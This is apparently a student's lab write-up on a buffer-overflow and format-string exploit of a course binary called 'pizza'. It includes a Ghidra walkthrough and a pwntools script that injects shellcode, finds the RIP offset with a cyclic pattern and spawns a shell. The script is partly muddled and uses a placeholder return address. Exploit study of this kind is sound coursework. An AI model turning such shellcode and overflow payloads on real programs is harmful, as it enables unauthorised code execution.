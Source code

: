 #  Control Flow Integrity Violation 


The Weeks Lab focus was on Writing a python script using `pwntools` that executes a given program named `pizza.c`, leaks the stack offset, and spawns a shell. Technique used is `buffer overflow`

---

After downloading the victim program: pizza to my desktop and executed it in my terminal with the command `./pizza`; I obtained the error output `bash: ./pizza: Permission denied`, hence, I added execute permissions to the pizza file with the command chmod +x pizza. Rerun the victim program named pizza and did not encountered error.

After running the victim program: pizza to see how it works as it can be shown from the image below:

![Screenshot from 2023-04-30 12-09-30](https://user-images.githubusercontent.com/66968869/235370146-73381ada-ad4d-47cd-9d69-4d2da068bf7f.png)

I then proceeded to Install pwntools by running `pip install pwntools` in my terminal to install pwntools library for Python on my system.

I tried getting to make the victim program "pizza" to crash by entering a long string of the alphabet `A` as my name or prompt for illustration. This led to an output with a segmentation fault in the image as shown below:

![Screenshot from 2023-04-30 12-53-35](https://user-images.githubusercontent.com/66968869/235371217-5ed04c10-2570-4632-a599-71713944d353.png)

Also using format strings to make something strange happen; by running the executable "pizza" and passing in some format string characters, it can be seen that the program is vulnerable(by providing memory addresses) as it can be seen from the image below as a sample output:

![Screenshot from 2023-04-30 16-07-40](https://user-images.githubusercontent.com/66968869/235378266-9a28a003-1ae5-4af0-8cc7-232930b2ebbe.png)

Moreover, running the file `python3 python_injection.py` provided the output below:

![Screenshot from 2023-04-30 16-00-49](https://user-images.githubusercontent.com/66968869/235378272-5416a3b1-c783-46f2-a5bf-8a86afd1dea4.png)

Furthermore, Opening the executable in Ghidra to really see how it works (and the library functions it is using). From the C code in Ghidra disassemble pane it can be seen that, the program is a basic pizza delivery application that accepts a user's name, the quantity of pizzas they wish to purchase, and their credit card information and then calculates the total cost of the transaction. In terms of how it works; the program starts by declaring some variables, including a pointer to a character array that will hold the user's name, a pointer to a block of memory allocated with malloc, and various local variables of different types. The program then prompts the user to enter their name using the print function and reads the input using the getline function. If getline returns 0, the program exits with an error message otherwise, the program then calls the getname function (a custom function defined), passing it pointers as arguments. The program then enters a loop that prompts the user to enter the number of pizzas they want to order using the print function and reads the input using the scanf function. This loop continues until the user enters a valid number between 1 and 10. Once the user enters a valid number, the program calculates the total cost of the order and displays a message using the printf function.The program then reads the user's credit card information using the scanf function and displays a confirmation message using the printf function. The program makes use of the following library functions including but not limited to `malloc` to allocate memory dynamically, `getline` to read input from the user, `printf` to display messages to the user and `scanf` to read input from the user.

Lastly, running the victim program "pizza" in GDB.

## python script using `pwntools` that executes the given program [pizza], leaks the stack offset, and spawns a shell.
Below is a script in python to run the pizza program, getting the pizza program executable to crash (segfault), stack offset and spawning of the shell. 
```
!/usr/bin/env python3

from pwn import *

<!-- Setting up context -->
context.arch = 'amd64'
context.os = 'linux'

binary = './pizza'

offset = 72  # found via manual testing
shellcode = asm(shellcraft.amd64.linux.sh())
padding = b'A' * (offset - len(shellcode))
payload = shellcode + padding + p64(0xdeadbeef)

p = process(binary)

p.sendline(payload)

pattern = cyclic(1000, n=8)
p = process(binary)
p.sendline(pattern)
p.wait()
core = p.corefile
rip_offset = cyclic_find(core.rip, n=8)
log.info(f'RIP offset: {rip_offset}')

padding = b'A' * rip_offset
rip = p64(core.rip)
payload = padding + rip + b'\n'
p = process(binary)
p.send(payload)

p.interactive()

```
The #!/usr/bin/env python3 instruction at the beginning of this script is used for specifying the version of python interpreter and its dependencies to use when parsing the script. rAlso the instruction `from pwn import *` which is normally used in exploit development to import the "pwntools" library, to provide a set of useful tools and utilities for interacting with vulnerable programs and services and also  providing functionalities for compiling and executing shellcode. Also,
context is one of the function's of "pwntools" library that is used to set various context variables that affect the behavior of the library when interacting with vulnerable programs and services. Arch, os, endian, and word_size variables are some of the options that can be set using the context function. Also the command `binary = './pizza'` to define the targeted executable and linkable format.

![Screenshot from 2023-05-01 07-03-16](https://user-images.githubusercontent.com/66968869/235553801-eab2b4a9-3a04-43ee-b9b3-01a0da7dcc42.png)
